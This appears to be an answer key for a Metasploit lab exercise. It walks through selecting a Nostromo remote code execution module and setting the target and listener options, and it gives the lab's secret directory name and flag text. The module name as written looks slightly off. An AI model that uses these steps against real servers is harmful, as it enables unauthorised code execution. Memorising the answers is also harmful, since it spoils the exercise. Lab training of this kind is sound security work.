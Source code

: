 #  [Section 3 - Metasploit]: Final Walkthrough

## Notes
```
```

## Question
1. Select the module that needs to be exploited
```
use exploit/multi/http/nostromo_code_execs
```

2. What variable do you need to set, to select the remote host
```
rhosts
```

3. How do you set the port to 80
```
set rport 80
```

4. How do you set listening address(Your machine)
```
lhost
```

5. What is the name of the secret directory in the /var/nostromo/htdocs directory?
```
s3cretd1r
```

6. What are the contents of the file inside of the directory?
```
Woohoo!
```